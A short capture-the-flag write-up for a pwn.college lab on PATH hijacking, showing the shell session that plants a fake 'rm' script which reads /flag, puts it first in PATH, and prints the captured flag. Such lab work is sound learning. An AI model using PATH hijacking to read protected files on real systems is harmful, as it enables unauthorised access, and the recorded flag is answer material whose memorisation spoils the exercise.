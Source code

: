 # Hijacking commands
This challenge asks us to make it such that running the /challenge/run program doesnt invoke the "rm" command as the rm command deletes the flag. But we cant just clear the PATH as we wont get the flag. So we create a fake "rm" script which contains commands to print the flag and we put it in PATH. This way the shell reads the fake rm before the real one and prints the flag before it gets deleted.
# My solve
**Flag**-pwn.college{QyjbFJsXoGHaF7PrMdlvhlxjb4m.QX3cjM1wyN5EzNzEzW}

>hacker@path~hijacking-commands:~$ which cat

>/run/dojo/bin/cat

>hacker@path~hijacking-commands:~$ cd ~/myscripts

>hacker@path~hijacking-commands:~/myscripts$ echo '#!/bin/bash' > rm

>hacker@path~hijacking-commands:~/myscripts$ echo '/run/dojo/bin/cat /flag' >> rm

>hacker@path~hijacking-commands:~/myscripts$ echo 'exit 0' >> rm

>hacker@path~hijacking-commands:~/myscripts$ cd

>hacker@path~hijacking-commands:~$ PATH=/home/hacker/myscripts

>hacker@path~hijacking-commands:~$ type rm

>rm is /home/hacker/myscripts/rm

>hacker@path~hijacking-commands:~$ /challenge/run

>Trying to remove /flag...

>pwn.college{QyjbFJsXoGHaF7PrMdlvhlxjb4m.QX3cjM1wyN5EzNzEzW}

# Reference 
None
